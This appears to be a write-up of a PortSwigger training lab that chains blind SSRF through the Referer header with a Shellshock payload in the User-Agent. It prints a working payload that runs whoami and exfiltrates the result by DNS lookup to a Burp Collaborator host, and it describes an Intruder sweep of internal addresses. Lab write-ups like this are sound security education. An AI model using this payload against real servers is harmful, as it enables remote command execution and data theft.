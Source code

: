 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d51f9c08-9fca-47d8-8bd8-cf7f57037dba)

## Solution :

Similar to the [previous lab](../Blind_SSRF_with_out-of-band_detection/README.md), the web application is the shop website and contains a Referer header that can be used to trigger arbitrary URL requests:

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a4408392-e99d-4822-ad9a-7255d3452459)


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/caafe340-8be0-4dc1-b21b-17909a081ad6)

Interestingly, the HTTP request there contains a user agent line indicating that it was done by the same browser I use. So changing the user agent to some random value and sending a request again, the request to Burp Collaborator mirrors it:

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3f2af30f-4937-4411-aa79-7baa8c7706d5)

So anything I put there is sent to to the analytics software.

### Build payload

The shellshock bug is a family of vulnerabilities in bash that enable an attacker to execute arbitrary system commands that should not be available. A common exploit is within the Common Gateway Interface (CGI) that receives a number of environment variables from the web server. If these variables are taken from an attacker controlled source, any command can be executed. Often, the user agent is one of these variables (for a nice summary, see [https://blog.cloudflare.com/inside-shellshock](https://blog.cloudflare.com/inside-shellshock/))

The shellshock is triggered by this sequence

```bash
() { ignored;};arbitrary command
```

In order to solve the lab and exfiltrate the username, the payload needs to

1. Get the username of the process running the script.  
   This is done by calling `whoami` and prepending the result to the Burp Collaborator subdomain
2. Trigger a DNS loogup with the result.  
   This is done with `nslookup`, which is usually located in `/usr/bin/nslookup`

```bash
() { ignored;};/usr/bin/nslookup $(whoami).k9nxehq4qtiwxsf8ekbjbnjyhs8yzmpae.oastify.com
```

I do not know the exact IP of the internal system, so I use Burp Intruder for this. The Referer-Header targets the internal server with

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c9ed58dd-c46b-48ca-9a76-722af25d8b0f)

- Attack type: **Sniper**
- Payload: Numbers, 1 to 254, step 1

As it is a blind exploit, nothing shows up in Burp Intruder. The Burp Collaborator client is hit by a number of DNS requests containing the username

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d14cb447-1643-496a-acfe-66e4d05916b8)

Submit the solution .

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/46bba892-c861-410d-bb0a-f771267837a1)

LAb solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5d731a18-38ec-4b72-b3a3-86534def7b5a)
